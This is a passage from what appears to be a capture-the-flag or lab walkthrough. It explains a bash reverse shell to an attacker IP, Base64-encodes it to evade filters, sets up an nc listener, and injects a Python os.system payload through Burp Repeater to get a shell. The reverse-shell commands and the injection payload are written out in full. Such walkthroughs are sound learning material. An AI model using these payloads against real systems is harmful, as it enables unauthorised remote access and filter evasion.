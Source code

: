     - This creates a reverse shell command using `bash`.
    - `bash -i`: Starts an interactive Bash shell.
    - `>& /dev/tcp/10.10.16.10/9001 0>&1`: Redirects standard input/output to the attacker's IP (`10.10.16.10`) on port `9001`, establishing a reverse shell.
2. **`| base64`**
    
    - Encodes the entire command in **Base64** format, making it less suspicious when injected into a vulnerable application.

### Purpose:

- The Base64 encoding is typically used to **bypass security filters**, **evade detection**, or **deliver payloads in an obfuscated way**.
- Once sent to the target system, it can be **decoded and executed** to establish a reverse shell.

### Decoding and Executing:

On the target machine, the attacker can decode and execute it like this:

bash

CopyEdit

`echo "BASE64_ENCODED_STRING" | base64 -d | bash`

This will decode the Base64 string back into the original Bash reverse shell command and execute it, giving an attacker remote access.

## Geting the reverse shell using the base64 encoded string we crated.
string the listener on the kali 
```bash
nc -lvnp 9001
```
### Run on the burbsuit repeater 
This will be placed insdie the __import__('os').system('id') in the bubsuit repeater
```bash
__import__('os').system('echo -n YmFzaCAtYyAnYmFzaCAtaSAgPiYgL2Rldi90Y3AvMTAuMTAuMTYuMTAvOTAwMSAwPiYxJyAg | base64 -d | bash')
```
After running the command above we get a reverse shell on our listener
![reverse shell](../../Assets/walktrhough-assets/burb-screenshop-after-revshell.png)
